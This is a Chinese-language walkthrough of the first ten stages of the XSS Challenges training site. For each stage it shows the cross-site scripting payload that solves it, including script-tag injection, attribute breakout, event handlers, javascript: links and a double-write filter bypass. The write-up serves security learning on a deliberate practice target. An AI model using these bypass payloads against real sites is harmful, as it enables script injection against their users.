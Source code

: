 # XSS Challenges通关记录
[@长安城第一美](undefined/arnie-rytcr)

网址

[XSS Challenges](https://xss-quiz.int21h.jp/)

## Stage #1（构建 payload）
这个靶场最好在 IE 浏览器，然后叫我们不要做除 xss 以外的攻击，也禁止使用扫描器

如果不会 Hint 是提示，用鼠标滑一下就可以看见提示了

第一关没有什么好说的，直接输入 payload

这个 payload 他是有要求内容为**alert(document.domain)**

```javascript
<script>alert(document.domain)</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728478026665-08a01c6f-31f4-4861-b604-119a2e56014b.png)

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728478217038-1af5975d-777d-4af6-b731-08ba0ef0daee.png)

点击进入下一关

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728478226037-b0af5440-1b49-4416-b36b-0f4d1556371d.png)

## Stage #2（闭合 input）
输入 payload 查看源码

```javascript
<script>alert(document.domain)</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728478709754-1bfb421a-7209-494a-bc69-a32ba99e1568.png)

构建 payload 闭合 value 值

```javascript
"><script>alert(document.domain)</script>
```

## Stage #3（修改 country）
先随便输入 payload 测试

```javascript
<script>alert(document.domain)</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728478840900-dd86cd3e-d9ea-48a4-a550-6f946228763a.png)

说明我们的插入的代码都没有被输入，其实插入点是旁边的选择国家的导航选项

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728478997360-2921e88f-4038-42e0-b986-366e93b350ee.png)

然后再在搜索框随便输入点搜索即可通关

## Stage #4（修改 hackme）
看起来跟第 3 关差不多

尝试上一关的方法行不通

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728479188485-3a8fd29a-08e5-4c41-a362-54cc80d0717f.png)

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728480091811-dd1714d5-14f3-426b-9ac0-41f66354a647.png)

**解决办法**

抓包闭合 p3，添加我们的 payload

```javascript
"><script>alert(document.domain)</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728480121357-a2958d90-f8f2-4e89-b8bc-f715b504c28f.png)

修改后放行直接通关

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728480144911-1e785612-090e-49bf-b022-4041ec6de40b.png)

## Stage #5（修改 maxlength）
一是长度限制，二是闭合前面的value

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728480212224-fff6b550-e435-4899-ad7e-9b47923874b7.png)

```javascript
"><script>alert(document.domain)</script>
```

## Stage #6（构造 JS 事件）
先随便试一个

```javascript
"><script>alert(document.domain)</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728480274795-a66d2d24-e009-4918-a425-c5a4de632508.png)

发现 <>被过滤了  

 换个思路，既然闭合不了那就加个属性：  

```javascript
"onmouseover="alert(document.domain)
```

## Stage #7（空格绕过）
先丢测试语句

```javascript
" οnclick=alert(document.domain) 
```

过滤了双引号

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728480965860-882e957d-a5f4-475f-9f64-c2e78c098ca9.png)

 利用空格闭合掉 value 值然后执行 JS 事件   

```javascript
长安城第一美 onmouseover=alert(document.domain)
```

## Stage #8（JS 伪协议）
 随便输入值发现用值构造了一个 a 链接 

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728481130389-aa9b27fe-b4d3-49e4-a93c-d0eaa6f863af.png)

 在 a 链接标签中通常使用 JS 伪协议来执行 JS 代码  

```javascript
javascript:alert(document.domain)
```

然后点击链接即可通关

## Stage #9（修改 hide）
 这一关是需要 IE 7 环境的，查看 head 可以发现编码不一样  

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728481201091-38af3758-2cff-4eb8-9427-b68c9e63c38b.png)

 因为难得搭环境所以可以直接修改 Hint 标签添加 JS 事件（原本是要用编码绕过的） 

```javascript
onmouseover="alert(document.domain)"
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728481501364-abe259b6-d00f-444c-a7b8-b75dd0ec5bb2.png)

## Stage #10（双写绕过）
 用的 payload 测试发现 domain 被过滤掉了  

```javascript
"><script>alert(document.domain)</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728481712593-86e59113-e571-413f-bec8-71db65ef179b.png)

发现domain被过滤,那我们肯定试试双写

```javascript
"><script>alert(document.dodomainmain)</script>
```

最后讲一下，如果环境有什么问题，过不了，可以强制通关

直接在控制台**alert(document.domain)**   哈哈哈没想到吧


